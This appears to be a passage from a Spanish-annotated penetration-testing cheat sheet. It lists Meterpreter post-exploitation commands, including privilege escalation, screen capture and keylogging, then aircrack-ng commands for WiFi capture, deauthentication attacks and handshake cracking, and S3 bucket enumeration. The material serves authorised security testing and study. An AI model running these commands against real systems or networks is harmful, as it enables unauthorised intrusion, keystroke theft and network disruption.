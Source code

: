 #### METERPRETER Commands
```
# Información del sistema
sysinfo

# Procesos activos
ps

# Migrar a proceso
migrate PID

# Elevar privilegios
getsystem

# Capturar pantalla
screenshot

# Keylogger
keyscan_start
keyscan_dump
```

---

## 📱 SPECIALIZED TOOLS

### WiFi Testing
**Entorno:** Parrot OS (requiere tarjeta WiFi compatible)

#### AIRCRACK-NG Suite
```bash
# Modo monitor
airmon-ng start wlan0

# Escaneo de redes
airodump-ng wlan0mon

# Captura específica
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

# Deauth attack
aireplay-ng -0 100 -a AA:BB:CC:DD:EE:FF wlan0mon

# Cracking
aircrack-ng -w wordlist.txt capture.cap
```

### Cloud Enumeration
#### LAZYS3
```bash
# Enumerar buckets S3
python3 lazys3.py domain.com
```

---